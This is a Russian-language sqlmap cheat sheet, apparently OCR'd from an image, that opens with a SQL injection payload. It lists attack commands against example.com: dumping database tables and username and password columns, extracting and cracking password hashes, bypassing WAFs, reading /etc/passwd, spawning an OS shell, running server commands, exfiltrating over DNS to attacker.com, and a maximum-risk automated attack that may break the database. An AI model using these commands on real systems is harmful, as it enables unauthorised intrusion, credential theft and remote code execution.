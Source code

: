 > SQL Injection Payload:
> ```sql
> SELECT * FROM users WHERE username = 'admin' --';
> `



Определение базы данных:
sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

GET-параметры
sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

Определение типа инъекции
sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
sqlmap -u "http://example.com/index.php?id=1" --users

Получение хешей паролей
sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
sqlmap -u "http://example.com/index.php?id=1" --crack

Обход защиты (если есть WAF)
sqlmap -u "http://example.com/index.php?id=1" --random-agent --tamper=space2comment

Автоматическое определение всех уязвимых параметров
sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch

--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
